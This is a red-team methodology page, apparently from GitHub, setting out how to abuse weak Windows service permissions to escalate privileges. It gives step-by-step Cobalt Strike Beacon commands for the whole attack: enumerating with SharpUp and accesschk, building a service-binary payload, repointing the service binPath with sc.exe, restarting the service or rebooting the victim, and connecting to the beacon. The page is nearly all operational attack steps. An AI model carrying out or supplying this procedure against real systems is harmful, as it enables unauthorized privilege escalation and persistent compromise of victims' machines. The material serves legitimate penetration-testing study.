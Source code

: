 ```yaml
---
title: "Weak Service Permissions Abuse Methodology"
author: "nickvourd"
description: "Abuse Windows service misconfigurations that allow an attacker to elevate their privileges."
date: 2022-02-01
---
```


### Abuse Windows service misconfigurations that allow an attacker to elevate their privileges.

---

#### -> Run SharpUp and find that a Service is Modifiable (Beacon Command):

```powershell
$ execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe
```

#### -> Find Service Permisions with accesschk from Sysinternals Suite (Beacon Command):

```powershell
$ powershell .\accesschk64.exe /accepteula -ucqv [user] [service_name]
```

#### ->  We can abuse these weak permissions by changing the binary path of the service - so instead of it running `C:\[path]\[real_service].exe`, we can have it run something like `C:\[path]\[fake_service].exe`.

#### -> Payloads to abuse services must be specific "service binaries". We can do this in Cobalt Strike via `Attacks > Packages > Windows Executable (S)` and selecting the Service Binary output type.

#### -> Upload the malicious payload to a writable directory.

#### -> Rename the malicious payload to `fake-service.exe`.

#### ->View the configurations of service (Beacon Command):
```powershell
$ powershell sc.exe qc [service_name]
```

#### -> Change the binary path of service (Beacon Command):
```powershell
$ powershell sc.exe config [service_name] binPath= C:\[path]\fake-service.exe
```

#### ->Verify the configurations of service (Beacon Command):
```powershell
$ powershell sc.exe qc [service_name]
```

#### -> View state of service (Beacon Command):
```powershell
$ powershell sc.exe query [service_name]
```

#### -> If the service is running and you have permissions to stop it (Beacon Command):
```powershell
$ powershell sc.exe stop [service_name]
```

* Then start again the service (Beacon Command):
```powershell
$ powershell sc.exe start [service_name]
```

* Connect to the listening tcp beacon (Command Beacon):
```powershell
$ connect localhost [port]
```

#### -> If you don't have permissions to start/stop the victim's vulnerable service, just reboot the victim's machine and connect to TCP Beacon.

---

###### nickvourd's Social links
- [[GitHub]](https://github.com/nickvourd)
- [[Twitter]](https://twitter.com/nickvourd)